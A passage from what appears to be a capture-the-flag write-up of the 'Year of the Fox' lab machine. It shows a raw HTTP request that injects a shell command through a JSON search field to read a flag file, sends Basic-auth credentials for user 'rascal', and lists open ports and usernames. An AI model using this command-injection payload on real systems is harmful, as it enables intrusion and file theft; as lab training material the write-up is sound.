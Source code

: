 ![writeup.enumeration.steps.7.1](/static/files/posts_thm_yotf/screenshot06.png.webp)  

8\. We use this to triage the file system and find the first web flag file:  
```
POST /assets/php/search.php HTTP/1.1
  Host: 10.10.41.240
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://10.10.41.240/
  Content-Type: text/plain;charset=UTF-8
  Content-Length: 101
  Authorization: Basic cmFzY2FsOmxvdmU=
  Connection: close

  {"target":"\"cat ../../../web-flag.txt;\n"}
```

![writeup.enumeration.steps.8.1](/static/files/posts_thm_yotf/screenshot07.png.webp)  

### Findings
#### Open Ports
```
80/tcp    http          Apache httpd 2.4.29
139/tcp   netbios-ssn   Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp   netbios-ssn   Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
```
#### Users
```
ssh: rascal, fox
webapp: rascal
```
